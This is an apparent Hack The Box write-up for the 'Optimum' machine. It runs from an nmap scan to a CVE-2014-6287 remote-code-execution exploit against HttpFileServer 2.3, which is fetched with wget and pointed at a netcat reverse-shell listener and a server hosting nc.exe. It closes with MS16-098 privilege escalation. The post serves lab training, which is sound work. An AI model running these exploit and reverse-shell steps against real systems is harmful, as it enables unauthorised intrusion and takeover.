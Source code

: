 ```yaml
---
layout: post
title: "optimum"
categories: HTB
---
```


```bash
nmap -v -sV 10.10.10.8
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-04 04:26 EDT
NSE: Loaded 45 scripts for scanning.
Initiating Ping Scan at 04:26
Scanning 10.10.10.8 [4 ports]
Completed Ping Scan at 04:26, 0.26s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 04:26
Completed Parallel DNS resolution of 1 host. at 04:26, 0.01s elapsed
Initiating SYN Stealth Scan at 04:26
Scanning 10.10.10.8 [1000 ports]
Discovered open port 80/tcp on 10.10.10.8
Completed SYN Stealth Scan at 04:27, 16.32s elapsed (1000 total ports)
Initiating Service scan at 04:27
Scanning 1 service on 10.10.10.8
Completed Service scan at 04:27, 6.48s elapsed (1 service on 1 host)
NSE: Script scanning 10.10.10.8.
Initiating NSE at 04:27
Completed NSE at 04:27, 0.99s elapsed
Initiating NSE at 04:27
Completed NSE at 04:27, 0.93s elapsed
Nmap scan report for 10.10.10.8
Host is up (0.23s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows


```
Only one port is open. Nmap revale the Http Version.
With that version i found a RCE exploit in:
https://gist.github.com/AfroThundr3007730/834858b381634de8417f301620a2ccf9

Download the exploit:
```bash wget https://gist.githubusercontent.com/AfroThundr3007730/834858b381634de8417f301620a2ccf9/raw/783473905951169e49afaf5958e89b23f5a8743f/cve-2014-6287.py

```

Before launcing the exploit i first edited as follows:
```python
    ip_addr = "10.10.14.7:8000" #local IP address
    ip_addr1="10.10.14.7"
    local_port = "443" # Local Port number
```

In another terminal i hosted nc.exe and started python server in the same working directory:
```bash
    python -m SimpleHTTPServer
```
And another terminal listening in port 443:
```bash
nc -lvp 443
```
Finally executing the exploit give a shell:
```bash
python cve-2014-6287.py 10.10.10.8 80
```

#Escalation
We can escalate in two way:
https://gist.github.com/intrd/6dda33f61dca560e6996d01c62203374

And 
https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-098

For quick escalation download bfill from second link, upload to the box and execute like:
```bash
.\bfill.exe 
```
And you are root :).

![GitHub Logo](../optimum/Screenshot.png)


Note: I have quickly, wrote this note as i am preparing for OSCP!

Thanks!


